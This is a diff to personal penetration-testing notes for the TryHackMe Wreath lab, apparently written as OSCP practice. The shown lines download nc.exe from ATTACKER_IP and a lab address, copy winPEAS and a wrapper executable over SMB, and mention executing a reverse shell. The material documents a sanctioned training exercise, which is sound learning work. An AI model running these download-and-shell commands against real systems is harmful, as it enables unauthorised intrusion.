

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: Notes/OSCP_Wreath_THM.md, the part around the change printed below. Rendered like a GitHub page; pictures changed too: Notes/image-22.png (added); blank space fills up the shorter version.

````diff
--- a/Notes/OSCP_Wreath_THM.md
+++ b/Notes/OSCP_Wreath_THM.md
@@ -622,7 +622,6 @@ curl http://ATTACKER_IP:8001/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe
 curl http://10.50.106.78/nc64.exe -o c:\\windows\\temp\\nc-pat.exe
 ```
 
-
 We sent then the following commands to create a shell:
 ```
 # Listener on the attacking machine
@@ -637,10 +636,16 @@ copy \\10.50.106.78\share\winPEAS.ps1 %TEMP%\winPEAS-pat.ps1
 
 copy \\10.50.106.78\share\winPEAS.bat %TEMP%\winPEAS-pat.bat
 
+copy \\10.50.106.78\share\Wrapper.exe.bat %TEMP%\winPEAS-pat.bat
 
-net use \\10.50.106.78\\share /del
+copy \\10.50.106.78\share\Wrapper.exe Wrapper-pat.exe
 
-**Screenshot of uploaded file and reverse shell**
+C:\Program Files (x86)\System Explorer>
+
+
+net use \\10.50.106.78\\share /del /USER:user
+
+![Executing reverse shell](image-22.png)
 
 ### Escalate privilege on the PC
 Differently from the other two hosts, this one is running with a low privilege user. Our task here was to find other vulnerabilities points that allows to escalate to a privileged user.
````
Also changed, not shown: other parts of Notes/OSCP_Wreath_THM.md (+42 -5 lines).
